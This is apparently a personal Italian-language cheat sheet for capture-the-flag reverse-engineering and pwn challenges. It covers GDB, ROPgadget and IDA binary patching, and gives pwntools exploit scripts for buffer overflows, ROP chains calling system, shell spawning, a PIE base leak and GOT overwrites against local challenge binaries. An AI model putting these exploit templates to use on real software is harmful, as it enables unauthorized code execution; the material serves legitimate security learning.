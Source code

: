 # Rev-PWN

### General terminal command

- **strings *nomeFile*** → Stampa tutte le stringhe del programma
- **checksec *nomeFile*** → per vedere struttura file
- **cat *nomeFile*** → per vedere contenuto file

**ROP**

- ROPgadget --binary ***nomeFile***| grep "rdi” → per creare un ROP gadget
    - E si cerca tra la stampa una cosa simile: 0x00000000004007c3 : pop rdi ; ret → ovvero con il ret alla fine
        
        In caso ce ne siano più di uno trovare quello che esegue i pop che ci interessano (in caso provarli tutti)
        
- ROPgadget --binary ***nomeFile***| grep "ret” → per aggiungere il ROP di return
    - Si cerca tra la stampa l’indirizzo con solo ret scritto, es.: 0x000000000040053e : ret

### GDB debbuger

- **gdb *nomeFile →*** per aprire debbugger del file
    - **break *nomeFunzione*/break **indirizzoMemFunzione →*** per impostare un breakpoint nella funzione
    - **jump *nomeFunzione →*** per chiamare quella funzione
    - **disas *nomeFunzione →*** per vedere cosa fa la funzione (a volte può essere necessario inserire prima un breakpoint)
    - **x/s *indirizzoMemVariabile →*** stampa valore della variabile
    - **print $eax →** stampa valore registro
    - **info registers** → permette di vedere i registri del file
- **checksec *nomeFile →*** per verificare se RELRO è FULL quindi file protetto da scritture sullo stack
    
    **Calcolare buffer**
    
    - **pattern_create *dimPattern nomePattern***
    - **run < *nomePattern** → per runnare il pattern*
    - **pattern search** → per vedere la dimensione del buffer
        - **EIP+0 found at offset: *dimBuffer →*** dimBuffer sarà la dimensione che dovremo utilizzare

### IDA Tip

- **Evitare la chiamata di una funzione** → cliccare su di essa, e cambiare il suo esadecimale con tutti 90 (edit → patch program → change byte. Per salvare: edit → patch program → apply to input files)
- **Leggere cella di memoria di una funzione** → Andare su finestra exports
- **Patch di un rand()** → evitare la chiamata di timer() e srand() che setta il seed del random, così facendo la risposta corretta è sempre 0

### PWN

```python
from pwn import *

garbage = b'java'+b'A'*28
address = p64(0x4007a2) #indirizzo che vogliamo che venga chiamato dopo aver fatto overflow
p = process('./java')
p.sendline(garbage+address)
p.interactive() #da usare se con questo codice si aprira una shell da cui poi dovremo operare
#p.recvall() da usare al posto di interactive se il programma termina e vogliamo ottenere l'output
#----------------------------------------------------------
#Per ottenere l'indirizzo della funzione che vogliamo chiamare
elf=ELF('./java')
address = p64(elf.symbols['print_flag'])
#----------------------------------------------------------
p.sendline(asm(shellcraft.sh())) #se è necessario generare una shell
#-----------------------------------------------------------
exit_got = elf.got['exit'] #da usare se la funzione è in GOT (quindi cambia indirizzo)
#--------DA USARE SE PIE ATTIVO-------------------
from pwn import *

p=process('./challenge')
main =p.unpack()
elf = ELF('./challenge')
elf.address=main-elf.symbols['main']
where = elf.symbols['read']
what = elf.symbols['oh_look_useful']

p.pack(where)
p.pack(what)
p.interactive()

#-----------Da usare per ROP------------------------------------
from pwn import *

p=process('./split')
garbage=b'A'*40
ROPgadget=p64(0x4007c3)#Ottenuto con: ROPgadget --binary split | grep "rdi"
addressFlag=p64(0x601060)#Ottenuta da Export IDA
systemAddress=p64(0x400560) #Ottenuto con da gdb: p system
ret=p64(0x40053e) #Ottenuto con: ROPgadget --binary split | grep "ret”

p.sendline(garbage+ret+ROPgadget+addressFlag+systemAddress)
print(p.recvall())
#-----------------what - where --------------------
from pwn import *  # type: ignore

context.binary = "./NeedsToBeHappy"
e: ELF = context.binary  # type: ignore     #just to make the typechecker happy
p = process()
p.sendline(b"y")
p.sendline(str(e.functions["give_the_man_a_cat"].address).encode("ascii"))
p.sendline(str(e.got["exit"]).encode("ascii"))
print(p.recvall())
#----------------what - where v2-----------------------
from pwn import *

e = ELF("./goat")
p = process("./goat")

p.sendline(hex(e.got["exit"]))
p.sendline(hex(e.symbols["win"]))
print(p.recvall())

```

### C functions

```c
__asm__() //è molto probabile che sia da arrivare a questa funzione e chiamare una shell
```

### ROP

Da usare se dopo aver messo break sul main e aver runnato con gdb ottengo una cosa simile

```bash
RAX: 0x400697 (<main>:  push   rbp)
RBX: 0x0
RCX: 0x400760 (<__libc_csu_init>:       push   r15)
RDX: 0x7fffffffdf98 --> 0x7fffffffe245 ("SHELL=/bin/bash")
RSI: 0x7fffffffdf88 --> 0x7fffffffe1f6 ("/mnt/c/users/aless/Downloads/Challenges/challenge rop/Challenges/1_split/split")
```

## Radare2

[https://radareorg.github.io/blog/posts/using-radare2/](https://radareorg.github.io/blog/posts/using-radare2/)

### Hexadecimal code

[https://faydoc.tripod.com/cpu/jle.htm](https://faydoc.tripod.com/cpu/jle.htm)

## CrossTheBridge

```diff
2c2
< CrossTheBridge:     formato del file elf64-x86-64
---
> CrossTheBridge_patched:     formato del file elf64-x86-64
711c711
<     1ae8:	75 74                	jne    1b5e <is_someone_cheating+0xa0>
---
>     1ae8:	eb 74                	jmp    1b5e <is_someone_cheating+0xa0>
766c766
<     1bba:	0f b6 44 05 f5       	movzbl -0xb(%rbp,%rax,1),%eax
---
>     1bba:	b8 4c 00 00 00       	mov    $0x4c,%eax

```
